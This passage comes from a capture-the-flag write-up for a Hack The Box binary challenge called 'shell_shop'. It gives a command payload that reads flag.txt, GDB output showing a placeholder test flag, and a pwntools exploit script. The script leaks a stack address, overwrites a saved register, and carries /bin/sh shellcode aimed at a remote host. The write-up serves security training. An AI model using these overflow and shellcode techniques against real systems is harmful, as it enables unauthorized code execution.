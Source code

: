 ```
# Execute some commands in the shell
cmds = b'\x0apwd\x0als -al\x0acat flag.txt'

payload = shop + buf + cmds
```

Now we can execute commands before the shell exits:

```
process 2905441 is executing new program: /usr/bin/dash                                                      
[Thread debugging using libthread_db enabled]                                                                
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".                                   
/mnt/hgfs/CTF-oct-23/pwn_shell_shop
[Detaching after vfork from child process 2905444]
total 2742
drwxrwxr-x 1 kali dialout     576 Nov  5 12:49 .
drwxr-xr-x 1 kali dialout     288 Nov  5 08:36 ..
-rw-r--r-- 1 kali dialout     827 Nov  5 12:49 create_payload.py
**-rw-rw-r-- 1 kali dialout      25 Feb  7  2023 flag.txt**
drwxrwxr-x 1 kali dialout     128 Feb  7  2023 glibc
**HTB{f4k3_fl4g_4_t35t1ng}**
[Inferior 1 (process 2905441) exited normally]
```

Since we got this working inside GDB, let’s port this to `pwntools` to be able to test it remotely as well. The final exploitation script looks as follows:

```
from pwn import *

bin_path = './shell_shop'
e = ELF(bin_path)

# Local process
#io = process(bin_path)

# Local process under GDB
# Break before the fgets() call 
#io = gdb.debug(bin_path, gdbscript = 'b *(main+273)')

# Remote process
io = remote('<IP>', '<PORT>')

read_buf_size = 0x1f

# Buy second item
io.send(b'2\x0a' + b'\x00' * (read_buf_size - 2))

# Exit the shop and get the leaked address
io.send(b'3\x0a' + b'\x00' * (read_buf_size - 2))

recv_buf = io.recvrepeat(5).decode("utf-8")
leak_str = recv_buf.split('0x')[1].split(']')[0]
leak_addr = int(leak_str, base = 16)
print("[*] leaked stack address: 0x%X" % leak_addr)

# Offset where RBP is overwritten
offset = 58

# Spawn /bin/sh
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
```